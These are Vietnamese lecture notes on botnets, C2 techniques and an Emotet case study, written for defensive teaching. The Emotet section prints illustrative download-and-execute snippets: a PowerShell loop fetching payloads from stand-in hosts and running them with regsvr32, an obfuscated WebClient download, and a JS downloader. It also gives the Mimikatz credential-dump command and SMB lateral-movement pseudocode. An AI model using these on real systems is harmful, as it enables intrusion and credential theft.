




# Bài 5: Botnet & APT Malware: Cơ Chế Hoạt Động

## 1. Botnet – Mạng Lưới Robot Độc Hại

### 1.1 Bot là gì?

**Bot** (viết tắt của *robot*) là một chương trình tự động thực hiện các tác vụ. Có hai loại:

- **Bot lành tính**: Ví dụ Googlebot – thu thập dữ liệu web phục vụ index tìm kiếm.
- **Bot độc hại**: Là một thực thể mã độc chạy tự động trên máy tính bị xâm nhập (gọi là *zombie*) mà không có sự đồng ý của chủ máy. Bot độc hại thường được viết chuyên nghiệp, có động cơ tài chính, và phát tán rộng rãi.

### 1.2 Botnet là gì?

**Botnet** (viết tắt của *robot network*) là một mạng lưới các máy tính bị nhiễm mã độc, được điều khiển bởi một kẻ tấn công duy nhất gọi là **botmaster** hoặc **bot herder**.

> Định nghĩa chính thức: *"Botnet – Một nhóm các thực thể mã độc phối hợp, được botmaster kiểm soát thông qua một kênh C&C (Command & Control)."*

Mỗi máy tính trong botnet được gọi là một **bot** hoặc **zombie**.

---

## 2. Mục Đích Sử Dụng Botnet

Botnet được khai thác cho nhiều hoạt động tội phạm mạng:

| Mục đích | Mô tả |
|---|---|
| **DDoS** | Làm quá tải hệ thống/mạng mục tiêu bằng lưu lượng khổng lồ |
| **Spam** | Gửi hàng triệu email rác từ các máy bị nhiễm |
| **Đánh cắp dữ liệu** | Thu thập thông tin đăng nhập, số thẻ tín dụng |
| **Click fraud** | Tự động click vào quảng cáo PPC (Pay-Per-Click) để trục lợi |
| **Cryptojacking** | Sử dụng CPU của nạn nhân để đào tiền điện tử |
| **Phishing** | Phát tán email giả mạo đánh lừa người dùng |
| **Malware distribution** | Phân phối mã độc khác |
| **Extortion** | Tống tiền bằng DDoS hoặc mã hóa dữ liệu |

---

## 3. Chi Phí & Thiệt Hại Từ Botnet

- **Morris Worm (1988)**: Lây nhiễm ~6.000 máy tính (10% Internet thời đó), thiệt hại ~$10 triệu.
- **Code Red Worm**: Lây hơn 500.000 server, thiệt hại ~$2,6 tỷ.
- **Love Bug Worm**: Thiệt hại ~$8,75 tỷ.

---

## 4. Tại Sao Botnet Ngày Càng Phát Triển?

- **Cơ hội kiếm tiền**: Đánh cắp danh tính, tống tiền, đào coin, DDoS-as-a-Service.
- **Thiết bị IoT kém bảo mật**: Hàng triệu camera, router với mật khẩu mặc định dễ bị chiếm.
- **Công cụ sẵn có**: Các bộ kit mã nguồn mở hoặc bị rò rỉ (Mirai, Cobalt Strike) hạ thấp ngưỡng gia nhập.
- **Người dùng thiếu ý thức**: Không cập nhật thiết bị, không nhận ra dấu hiệu nhiễm mã độc.
- **Kiến trúc phân tán, khó phát hiện**: P2P, Fast-Flux, kênh mã hóa làm botnet khó bị dẹp.
- **Tích hợp với các chiến dịch khác**: Botnet là hạ tầng cho ransomware, phishing, APT.

---

## 5. Lịch Sử Phát Triển Botnet

```
Đầu 1990s  → IRC bots (eggdrop): quản lý kênh IRC tự động
1998-2000  → Trojans: BackOrifice, SubSeven
1999-2000  → DDoS tools: Trinoo, TFN2k, Stacheldraht
2001+      → Worms: Code Red, Blaster, Sasser (lây lan nhanh)
2000       → Botnet đầu tiên công khai: Mafiaboy (Michael Calce)
              → DDoS Yahoo, eBay, Amazon, Dell, CNN
2003+      → AgoBot, SDBot, SpyBot, GTBot
2016       → Mirai Botnet – nhắm IoT
2024       → Cobalt Strike, Remcos, Flubot... (Spamhaus)
```

**Sự kiện nổi bật – Mafiaboy (2000)**: Michael Calce, một thiếu niên người Canada, sử dụng botnet tấn công DDoS hàng loạt website nổi tiếng (Yahoo, eBay, Amazon, Dell, CNN) khiến các máy chủ sập trong nhiều ngày.

---

## 6. Thống Kê Botnet Hiện Nay (Spamhaus, Jul–Dec 2024)

- Spamhaus xác định **13.720 botnet C&C** trong 6 tháng cuối 2024, giảm 4% so với 6 tháng đầu năm.
- Trung bình **2.287 C&C/tháng**.

**Top quốc gia có C&C nhiều nhất:**

| Hạng | Quốc gia | Jul–Dec 2024 |
|---|---|---|
| #1 | Trung Quốc | 3.535 |
| #2 | Mỹ | 2.286 |
| #3 | Nga | 1.125 |
| #17 | Việt Nam | 107 |

**Top malware liên quan botnet C&C (Jul–Dec 2024):**

| Hạng | Malware | Loại |
|---|---|---|
| #1 | Cobalt Strike | Pentest Framework |
| #2 | Remcos | RAT |
| #3 | Flubot | Android Backdoor |
| #4 | AsyncRAT | RAT |
| #7 | Mirai | DDoS Bot |

---

## 7. Mirai Botnet – Case Study

### 7.1 Tổng Quan

Mirai là botnet nhắm vào thiết bị IoT, xuất hiện tháng 8/2016. Mã nguồn được công bố ngày 30/9/2016, dẫn đến hàng loạt biến thể.

**Các sự kiện lớn:**

- 09/2016: Tấn công Krebs on Security (~620 Gbps)
- 09/2016: Tấn công OVH (~1 Tbps)
- 10/2016: Tấn công Dyn – làm sập Twitter, Reddit, Netflix
- 11/2016: Tấn công Liberia qua Lonestar

### 7.2 Cơ Chế Hoạt Động Mirai



**3 bước chính:**

1. Bot quét không gian địa chỉ IPv4, tìm thiết bị chạy Telnet/SSH.
2. Thử đăng nhập bằng từ điển mật khẩu mặc định của IoT. Nếu thành công → gửi IP và thông tin đăng nhập về **Report Server**.
3. Loader nhiễm thiết bị. Bot mới tiếp tục quét và nhận lệnh DDoS từ **C2 Server**.

### 7.3 Các Lỗ Hổng Mirai Khai Thác (2023)

Mirai tiếp tục được cập nhật, nhắm đến 22+ lỗ hổng trên thiết bị D-Link, Zyxel, Netgear, TP-Link, Tenda, MediaTek:

| CVE | Thiết bị/Sản phẩm | Loại lỗ hổng |
|---|---|---|
| CVE-2022-30525 | Zyxel | Command Injection |
| CVE-2023-1389 | TP-Link Archer | Command Injection |
| CVE-2019-17621 | D-Link DIR-859 | Remote Command Injection |
| CVE-2022-30023 | Tenda HG9 | Command Injection |
| CVE-2021-46422 | Telesquare SDT Router | Command Injection |

---

## 8. Kiến Trúc C2 (Command & Control)

### 8.1 Mục Đích của C2

- Cho phép botmaster gửi lệnh đến các bot.
- Nhận báo cáo trạng thái, dữ liệu đánh cắp từ bot.
- Gửi cập nhật và payload mới.
- Duy trì persistence và phối hợp tấn công quy mô lớn.

### 8.2 Hai Loại Kiến Trúc C2

=== "Tập trung (Centralized)"

    - Tất cả bot kết nối đến **một server trung tâm**.
    - Dễ triển khai nhưng **dễ bị dẹp**: hạ server = vô hiệu hóa botnet.
    - Ví dụ: IRC C2, HTTP C2.

=== "Phân tán (Distributed / P2P)"

    - Không có điểm thất bại duy nhất.
    - Bot vừa là client vừa là server.
    - Khó phát hiện và dẹp bỏ hơn nhiều.
    - Ví dụ: Storm Botnet, Gameover Zeus.

---

### 8.3 IRC C2 Channel

**IRC (Internet Relay Chat) C2** là phương thức C2 sớm nhất, trong đó bot kết nối đến một kênh IRC để nhận lệnh.

**Cơ chế:**

1. Máy bị nhiễm kết nối đến IRC server và join vào channel chỉ định.
2. Botmaster gửi lệnh dưới dạng tin nhắn (ví dụ: `.download`, `.attack`).
3. Tất cả bot phân tích và thực thi lệnh.
4. Bot có thể gửi kết quả hoặc dữ liệu đánh cắp qua private message.

**Ưu điểm:**

- Đơn giản, dùng hạ tầng IRC sẵn có.
- Giao tiếp thời gian thực.
- Ẩn danh khi dùng IRC server công cộng.

**Nhược điểm:**

- Dễ phát hiện qua port 6667 (IRC mặc định).
- Lưu lượng plaintext, tập trung → dễ bị takedown.

**Ví dụ thực tế:** GTbot, Sdbot, Agobot.

---

### 8.4 HTTP/HTTPS C2 Channel

Bot giao tiếp với C2 server qua giao thức web tiêu chuẩn, thường dùng PHP script hoặc web API.

**Cơ chế:**

1. Máy bị nhiễm gửi HTTP request đến PHP script trên server của attacker.
2. C2 server thu thập thông tin: IP, timestamp, thông tin hệ thống.
3. Định kỳ (ví dụ: mỗi 10 phút), bot liên hệ server để nhận lệnh mới.

**Ưu điểm:**

- Hòa lẫn vào lưu lượng web hợp lệ (giống truy cập Google, Facebook).
- Vượt qua firewall, NAT, proxy dễ dàng.
- Dùng port chuẩn (80/443).
- Có thể dùng CDN hoặc domain hợp pháp để ngụy trang.

**Ví dụ thực tế:** Cobalt Strike (HTTPS C2), Emotet (HTTPS POST), DarkHotel APT.

---

### 8.5 P2P C2

Mỗi bot hoạt động vừa như client vừa như server trong mạng ngang hàng.

**Cơ chế:**

- Bot kết nối theo topology P2P (tương tự BitTorrent).
- Lệnh được truyền từ bot này sang bot khác, không qua server trung tâm.
- Bot mới được khởi tạo với danh sách "bootstrap peers" để gia nhập mạng.

**Lợi thế cho attacker:**

- Không có điểm thất bại duy nhất.
- Khó truy vết botmaster.
- Dự phòng cao: dù một phần botnet bị phá vẫn hoạt động.
- Mở rộng tốt với hàng triệu thiết bị.

**Khó khăn cho defender:**

- Khó phát hiện do lưu lượng phân tán.
- Blacklist IP/domain không hiệu quả.
- Cần phân tích đồ thị (graph analysis) để phát hiện hành vi P2P.

**Ví dụ:** Storm Botnet, Gameover Zeus.

---

## 9. Kỹ Thuật C2 Nâng Cao

### 9.1 Domain Generation Algorithm (DGA)

**DGA** là kỹ thuật cho phép mã độc tự động sinh ra hàng loạt tên miền ngẫu nhiên theo ngày/giờ để liên lạc với C2.

> *"DGA giống như một lịch bí mật – cả bot và attacker đều biết sẽ gặp nhau ở domain nào vào mỗi ngày."*

**Cơ chế:**

1. Bot và C2 server chia sẻ cùng thuật toán DGA và seed (ví dụ: ngày hiện tại, chuỗi hardcoded).
2. Mỗi ngày, bot sinh ra danh sách hàng trăm domain ngẫu nhiên (ví dụ: `abxy23.com`, `xqo9df.net`).
3. Attacker chỉ cần đăng ký **một hoặc vài** domain trong danh sách đó.
4. Bot thử kết nối lần lượt đến các domain, khi khớp thì kết nối thành công.

**Tại sao dùng DGA:**

- Không có C2 domain cố định → không bị phát hiện bằng signature tĩnh.
- Dù một số domain bị chặn, chỉ cần một domain hoạt động là đủ.
- Bot tự tính toán domain, không cần nhận cập nhật từ attacker.

**Ví dụ thực tế:**

| Malware | Số domain/chu kỳ |
|---|---|
| Conficker | ~250 domain/ngày |
| Bebloh | 50 domain/6 giờ |
| Necurs | DGA + Fast Flux kết hợp |

---

### 9.2 Fast Flux DNS

**Fast Flux** là kỹ thuật thay đổi nhanh các địa chỉ IP đứng sau một tên miền để tránh bị blacklist.

**Cơ chế:**

1. Attacker đăng ký một domain (ví dụ: `malicious-c2.net`).
2. Gán domain với **nhiều địa chỉ IP** (thường là IP của các host bị xâm nhập).
3. Cập nhật DNS A records với **TTL rất ngắn** (vài phút hoặc giây).
4. Khi defender chặn một IP, botnet tự động chuyển sang IP khác.

**Hai loại Fast Flux:**

=== "Single-Flux"
    Chỉ xoay vòng **A records** (địa chỉ IP) cho một domain.

=== "Double-Flux"
    Xoay vòng cả **A records** lẫn **NS records** (Name Server), khiến việc theo dõi và takedown khó hơn nhiều.

**Ví dụ thực tế:**

- Storm Worm (2007): Một trong những botnet đầu tiên dùng Fast Flux.
- GameOver Zeus (2011–2014): Dùng double-flux.
- Avalanche Network: Hạ tầng fast flux quy mô lớn cho nhiều malware.

---

### 9.3 Covert Channels (Kênh Bí Mật)

**Covert channel** là đường truyền thông ẩn, nhúng lệnh C2 hoặc dữ liệu bị đánh cắp vào các giao thức/nền tảng hợp lệ.

**Mục tiêu:** Vượt qua firewall, IDS/IPS, traffic filtering bằng cách hòa lẫn vào lưu lượng bình thường.

**Các kỹ thuật phổ biến:**

| Kỹ thuật | Mô tả |
|---|---|
| **DNS Tunneling** | Mã hóa dữ liệu vào tên subdomain, trao đổi qua DNS request/response |
| **HTTPS Covert C2** | Dùng HTTPS mã hóa để trao đổi lệnh và payload |
| **Social Media Channels** | Nhúng lệnh C2 vào tweet, comment Facebook, metadata ảnh |
| **Cloud-based Channels** | Dùng Google Drive, Dropbox làm kênh truyền lệnh |

**Ví dụ thực tế:**

- APT34 dùng DNS tunneling để C2 trong các chiến dịch gián điệp ngành dầu khí.
- IcedID, Ursnif dùng HTTPS covert channel.

---

## 10. Cơ Chế Phát Tán (Propagation)

**Phát tán** là cách botnet lây lan mã độc từ thiết bị này sang thiết bị khác để mở rộng quy mô.

### 10.1 Các Kỹ Thuật Phát Tán Phổ Biến

| Kỹ thuật | Mô tả |
|---|---|
| **Email Phishing** | Đính kèm mã độc hoặc link độc hại vào email spam |
| **Drive-by Downloads** | Nhiễm mã độc khi nạn nhân truy cập website bị xâm nhập |
| **Khai thác lỗ hổng** | Dùng exploit (ví dụ: EternalBlue/SMB) để tự lây lan |
| **Brute-force** | Thử mật khẩu yếu trên SSH, RDP |
| **Removable Media** | Lây qua USB (hiệu quả với mạng air-gapped) |
| **P2P** | Bot trực tiếp lây nhiễm các peer lân cận |

### 10.2 Ví Dụ Thực Tế

- **WannaCry**: Dùng lỗ hổng SMB (MS17-010/EternalBlue).
- **Mirai**: Quét Internet tìm thiết bị IoT với mật khẩu mặc định.
- **Emotet**: Phát tán qua tài liệu Word có macro độc hại.
- **Conficker**: Kết hợp nhiều kỹ thuật: USB, network exploit, brute-force.

### 10.3 Social Engineering – Tải Từ Internet

Một số mã độc không khai thác lỗ hổng hệ điều hành mà dựa hoàn toàn vào **social engineering**:

- Nạn nhân tải và tự thực thi mã độc từ website giả mạo (ví dụ: trang game giả).
- Ví dụ: Black Energy backdoor – nạn nhân tải từ trang game giả và tự chạy file `.exe`.

### 10.4 P2P Download

- Virus tự copy vào thư mục shared của mạng P2P (Kazaa, eDonkey) dưới tên ngụy trang hấp dẫn.
- Ví dụ: Swen, Fizzer, Lirva, Benjamin, KwBot.

### 10.5 Drive-by Downloads



Khoảng **1,3%** kết quả tìm kiếm Google dẫn đến ít nhất một URL độc hại.

---

## 11. Các Hoạt Động Ngầm (Underground Activities)

### 11.1 Tống Tiền (Extortion)

- **Ransomware**: "Chúng tôi đã mã hóa file của bạn. Trả tiền để lấy khóa giải mã."
- **DDoS Extortion**: "Đang tấn công website của bạn. Trả tiền để dừng / để chúng tôi không tấn công."
- Năm 2004: Botnet tấn công hàng chục trang cờ bạc trực tuyến, đòi $10.000–$50.000.

### 11.2 DDoS

Năm 2000: CNN, eBay, Yahoo! bị tấn công DDoS diện rộng, gây gián đoạn nghiêm trọng.

### 11.3 Spam

Botnet dùng các máy zombie để gửi email rác hàng loạt, giúp che giấu nguồn gốc và vượt qua bộ lọc.

**Câu hỏi: Spam liên quan gì đến botnet?**

Botnet cung cấp hạ tầng gửi spam: thay vì gửi từ một server dễ bị chặn, spam được phát đi từ hàng triệu máy thật với IP hợp lệ, rất khó block.

### 11.4 Phishing

Phishing là kỹ thuật social engineering kết hợp email giả mạo + website giả để đánh cắp thông tin tài chính, cá nhân.

**Câu hỏi: Phishing liên quan gì đến botnet?**

Botnet là hạ tầng phát tán email phishing quy mô lớn và host các website giả mạo. Theo Anti-Phishing Working Group (10/2005): 15.820 email phishing, 4.367 site giả được xác định, 96 thương hiệu bị giả mạo. **89,3%** site bị nhắm là dịch vụ tài chính.

### 11.5 Click Fraud

- Botnet tự động click vào quảng cáo PPC (Pay-Per-Click).
- **Động cơ**: Cạnh tranh không lành mạnh (đốt tiền quảng cáo đối thủ) hoặc kiếm tiền từ mạng quảng cáo (nếu là publisher gian lận).

---

## 12. Case Study – Phân Tích 4 Botnet Codebase

Bốn codebase được phân tích: **AgoBot**, **SDBot**, **SpyBot**, **GT Bot**.

### 12.1 AgoBot (AKA Gaobot, Phatbot)

- Xuất hiện: 10/2002.
- Phức tạp nhất trong 4 codebase.
- ~20.000 dòng C/C++, kiến trúc monolithic, modular.
- Hơn **580 biến thể**.

**Chức năng:**

- IRC-based C&C.
- Tập exploit lớn (Bagle, DCOM, MyDoom, NetBIOS, MS-SQL scanners...).
- DDoS nhiều kiểu.
- Shell encoding, polymorphism hạn chế.
- Chống phân tích (anti-disassembly).
- Thu thập thông tin nhạy cảm: Paypal password, AOL key qua sniffing, keylogging, registry.
- Củng cố và phòng thủ hệ thống bị chiếm.

### 12.2 SDBot

- Xuất hiện: 10/2002, hàng trăm biến thể.
- ~2.000 dòng C, đơn giản hơn nhiều.
- Codebase gốc không chứa module độc hại rõ ràng, được công bố dưới GPL.
- Dễ mở rộng qua **80+ patches** thêm: scanning, DoS, sniffer, thu thập thông tin, mã hóa.

### 12.3 SpyBot

- Xuất hiện: 4/2003, hàng trăm biến thể.
- ~3.000 dòng C, chia sẻ engine C&C với SDBot.
- Chức năng: NetBIOS/KaZaa exploit, scanning, flooding attacks, keylogging.

### 12.4 GT Bot (Global Threat Bot / Aristotles)

- Xuất hiện: 4/1998, hơn 100 biến thể.
- Thiết kế đơn giản, dựa trên scripting của mIRC.
- Bao gồm HideWindow (ẩn bot), BNC (proxy ẩn danh), psexec (thực thi tiến trình từ xa).
- Phiên bản với DCOM exploit có khả năng khai thác DCOM + ICMP flood.

---

## 13. So Sánh 4 Botnet theo Các Điểm Phân Tích

### 13.1 Cơ Chế Kiểm Soát Botnet

Tất cả 4 bot đều dùng **IRC** làm C&C:

- **AgoBot**: Dùng cả IRC chuẩn lẫn giao thức lệnh riêng.
- **SDBot**: Phiên bản IRC nhẹ, có IRC cloning và spying.

Nếu kênh giao tiếp bị gián đoạn → botnet mất tác dụng. Network operator có thể sniff lưu lượng IRC để phát hiện bot.

### 13.2 Cơ Chế Kiểm Soát Host

| Bot | Khả năng |
|---|---|
| AgoBot | Đầy đủ nhất: harvest credentials, process management, autostart, anti-AV |
| SDBot | Hạn chế trong bản gốc, mở rộng qua patch |
| SpyBot | Tương tự AgoBot: file manipulation, keylogging, process control |
| GT Bot | Hạn chế nhất: chỉ gather info và run/delete file |

### 13.3 Cơ Chế Phát Tán

- **AgoBot**: Quét ngang và dọc đơn giản.
- **SDBot**: Bản gốc không có scanning, biến thể có thêm.
- **SpyBot & GT Bot**: Quét ngang và dọc đơn giản.

**Quét ngang**: Một port trên nhiều địa chỉ IP.  
**Quét dọc**: Nhiều port trên một địa chỉ IP.

Do tính đơn giản và đồng nhất của phương pháp quét, có thể phát triển kỹ thuật **statistical fingerprinting** để nhận diện scan từ botnet.

### 13.4 Cơ Chế Deliver Mã Độc

- **SDBot, SpyBot, GT Bot**: Đóng gói exploit và payload vào một script.
- **AgoBot**: Tách biệt exploit và delivery:
  1. Exploit lỗ hổng, mở shell trên host mục tiêu.
  2. Deliver payload mã hóa qua HTTP hoặc FTP.
  
  → Cho phép tái sử dụng encoder trên nhiều exploit, đa dạng hóa bit stream.

---

## 14. Phát Hiện & Theo Dõi Botnet

- **Network IDS (Snort)**: Dùng signature để phát hiện, ví dụ:
  ```
  alert tcp any any -> any any (msg:"Agobot/Phatbot Infection Successful"; 
  flow:established; content:"221")
  ```
- **Traffic analysis**: Phân tích lưu lượng bất thường.
- **Honeynets**: Chạy Windows chưa vá lỗi để thu thập thông tin botnet (thường bị nhiễm trong 10 phút).

### 14.1 Spamhaus và DNSBL

**Spamhaus** là tổ chức theo dõi botnet và spam, cung cấp **DNSBL (DNS Blacklist)**:

1. Mail server nhận email → kiểm tra IP sender với Spamhaus DNSBL.
2. Nếu IP nằm trong blacklist → Reject/Tag/Block email.

**Phát hiện Reconnaissance:**

- **Spatial Heuristic**: Mail server hợp lệ vừa gửi query vừa là đối tượng của query. Máy chỉ gửi query (out-degree cao, in-degree thấp) → nghi ngờ là bot đang trinh sát.
- **Temporal Heuristic**: Query hợp lệ phản ánh mẫu đến của email thực.

**Các kiểu reconnaissance:**

- **Third-party**: Một máy chuyên dụng query từng bot trong danh sách → dễ phát hiện.
- **Self-Reconnaissance**: Mỗi bot tự query chính mình → bất thường, dễ phát hiện.
- **Distributed Reconnaissance**: Bot query cho bot khác → phức tạp nhất để phát hiện.

---

## 15. APT Malware – Mã Độc Tấn Công Dai Dẳng

### 15.1 APT là gì?

**Advanced Persistent Threat (APT)** là kẻ tấn công tinh vi, thường được nhà nước bảo trợ, xâm nhập mạng mục tiêu và **ẩn mình trong thời gian dài** để đạt mục tiêu chiến lược.

Mã độc APT thường:

- Dùng native tools để tránh bị phát hiện.
- Kỹ thuật evasion tiên tiến.
- Tấn công nhiều giai đoạn: Initial access → Backdoor → Lateral movement → Exfiltration.

---

## 16. Case Study: Emotet Malware

### 16.1 Tổng Quan

| Thuộc tính | Chi tiết |
|---|---|
| Hoạt động từ | Ít nhất 2014 |
| Ban đầu | Banking Trojan (phái sinh Feodo/Bugat) |
| Vận hành bởi | MUMMY SPIDER |
| Nhịp hoạt động | 2–3 tháng tấn công, 3–12 tháng offline để cập nhật |
| Tên MITRE ATT&CK | S0367 |
| Đánh giá | Europol: "Malware nguy hiểm nhất thế giới" |
| Xuất xứ | Được cho là từ Ukraine |

Checkpoint ước tính Emotet ảnh hưởng đến **1/5 tổ chức trên toàn cầu**.

### 16.2 Đặc Điểm Chính

- Được phát tán chủ yếu qua **phishing**, đôi khi qua khai thác lỗ hổng và brute force.
- Là **Infrastructure-as-a-Service (IaaS)** cho tội phạm mạng.
- **Modular**: Infection, persistence, lateral movement, data exfiltration, dropping additional malware.
- Thả các malware khác: **Azorult, TrickBot, IcedID, Qbot**.
- Thả ransomware: **Ryuk, Bitpaymer**.
- Polymorphic, tự cập nhật để tránh phát hiện.

### 16.3 Vòng Đời Tấn Công Emotet



---

### 16.4 Initial Access – Phishing

Emotet dùng nhiều định dạng file để lây nhiễm ban đầu:

| Định dạng | Cơ chế |
|---|---|
| DOC/XML/DOCX | Đính kèm email, dùng VBA AutoOpen macro, download loader qua WebClient |
| JavaScript | Trong file ZIP đính kèm hoặc link trong PDF, dùng MSXML2.XMLHTTP |
| PDF | Đính kèm email, chứa hyperlink đến Word doc hoặc JS downloader |

**Ví dụ payload JavaScript bị obfuscate:**

```javascript
// Ví dụ minh họa cấu trúc (đơn giản hóa)
function download(links) {
    for (var url of links) {
        try {
            var req = new ActiveXObject("MSXML2.XMLHTTP");
            req.open("GET", url, false);
            req.send();
            // Lưu và thực thi
        } catch(e) {}
    }
}
```

### 16.5 Execution

**PowerShell** là công cụ thực thi phổ biến của Emotet:

```powershell
# Ví dụ minh họa logic download Emotet
$links = @(
    "http://example1.com/payload",
    "http://example2.com/payload"
)
foreach ($url in $links) {
    try {
        Invoke-WebRequest $url -OutFile "$env:TEMP\payload.dll"
        regsvr32.exe "$env:TEMP\payload.dll"
        break
    } catch {}
}
```

**Windows Command Shell obfuscation**: Emotet dùng chuỗi `cmd.exe` lồng nhau với đường dẫn giả để bypass detection trước khi chạy PowerShell.

**Visual Basic Macros**: Emotet dùng macro VBA nhúng trong document. Microsoft đã vô hiệu hóa macro từ Internet theo mặc định (2023), buộc Emotet chuyển sang kỹ thuật khác.

---

### 16.6 Persistence

Emotet duy trì access bằng 3 cơ chế:

=== "Registry Run Keys"
    Ghi vào `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` để tự khởi động cùng Windows.

=== "Windows Service"
    Tạo service với Startup type = Automatic. Ví dụ: `adminstarted.exe` ngụy trang là service hệ thống.

=== "Scheduled Tasks"
    Tạo scheduled task dùng `regsvr32.exe` để load DLL mỗi khi hệ thống khởi động.

---

### 16.7 Privilege Escalation

- Emotet dùng **protobuf** (Google Protocol Buffers) để truyền message với C2.
- Trường `executeFlag` trong message quyết định cách load payload:
  - `1`: Drop vào `C:\ProgramData` và thực thi.
  - `2`: Giống type 1 nhưng **duplicate user token** (leo thang đặc quyền).
  - `3`: Load binary vào memory (dùng cho modules dạng DLL).
- Dùng **Mimikatz** để đánh cắp NTLM hash và leo thang đặc quyền.

---

### 16.8 Defense Evasion

**Command Obfuscation**: Nhúng URL download Emotet vào biến ngẫu nhiên lẫn với code vô nghĩa:

```powershell
# Minh họa pattern obfuscation
$CaliforniaMovies = New-Object Net.WebClient
$PersonalLoan = 'http://legit-looking-domain.com/path'
# ... hàng loạt biến vô nghĩa ...
$CaliforniaMovies.DownloadFile($PersonalLoan, $env:public+"\file.exe")
```

**Embedded Payloads**: Nhúng toàn bộ mã độc vào file khác (ví dụ: self-extracting RAR) để tránh phát hiện.

---

### 16.9 Credential Access

- **WebBrowserPassView**: Lấy password lưu trong IE, Firefox, Chrome, Safari, Opera.
- **Network Password Recovery**: Lấy password LAN, Exchange, Remote Desktop, messaging apps.
- **Mimikatz**: Dump NTLM hash từ memory (sekurlsa::logonpasswords).

---

### 16.10 Lateral Movement

Emotet dùng **SMB (Server Message Block)** để di chuyển ngang trong mạng:

```c
// Minh họa logic kết nối SMB
connect_result = fn_connect_via_WNetAddConnection2W(
    remote_server_name, 
    share_name,  // "IPC$"
    username, 
    password
);
if (!connect_result) {
    // Thành công → deploy bot trên máy mới
}
```

Emotet thử lần lượt các tổ hợp username/password đã thu thập được.

---

### 16.11 Command & Control Emotet

- Emotet thường dùng **nonstandard ports** để truyền C2 traffic.
- Dùng mã hóa (public key encryption) để bảo vệ cấu hình C2.
- Cấu trúc C2: Victim → Redirector servers → C2 server thật (short-term HTTP và long-term DNS/HTTP).

---

### 16.12 Exfiltration

Dữ liệu từ hệ thống nạn nhân được truyền qua botnet đến server "an toàn" của attacker, thông qua các redirector server trung gian.

---

### 16.13 Lịch Sử Emotet

| Thời điểm | Sự kiện |
|---|---|
| 5/2014 | Báo cáo đầu tiên về Emotet (banking malware dùng network sniffing) |
| 1/2015 | Emotet V3 |
| 12/2016 | Lần đầu drop malware thứ 3 (Dridex) |
| 4/2017 | Bắt đầu dùng PDF attachment |
| 9/2018 | Vượt 500k message/ngày |
| 10/2018 | Vượt 1 triệu message/ngày |
| 4/2019 | Dùng file ZIP có password chứa JScript hoặc Word doc độc |
| 1/2021 | **Takedown toàn cầu** bởi Europol + 8 quốc gia |
| 4/2021 | Law enforcement push update gỡ Emotet khỏi tất cả máy bị nhiễm |
| 11/2021 | **Emotet quay trở lại** với khả năng mới |

### 16.14 Emotet Takedown (2021)

Tháng 1/2021, cơ quan thực thi pháp luật của 8 quốc gia (Hà Lan, Đức, Pháp, Lithuania, Canada, Mỹ, Anh, Ukraine) phối hợp chiếm quyền kiểm soát hạ tầng Emotet. Ngày 25/4/2021, họ đẩy update gỡ cài đặt Emotet khỏi toàn bộ máy bị nhiễm thông qua chính kênh update của Emotet.

### 16.15 Emotet Trở Lại (11/2021)

Emotet quay lại với:
- Lệnh mới cho loader.
- Dropper được cải tiến.
- Hạ tầng C&C mới với ~246 hệ thống ban đầu.

---

### 16.16 Ryuk Attack Chain (Putting It All Together)



Emotet thường là bước đầu trong chuỗi tấn công dẫn đến **Ryuk ransomware**:
Emotet → TrickBot → Cobalt Strike → Ryuk.

---

## 17. Bài Tập Nhóm

Chọn một repository botnet mã nguồn mở để phân tích:

- Phân tích cấu trúc C2 bằng **phân tích tĩnh**.
- Mô phỏng an toàn trong môi trường **cách ly** (không kết nối Internet).
- Xác định **IOCs** (Indicators of Compromise).
- Thu thập lưu lượng mô phỏng (**PCAP**).
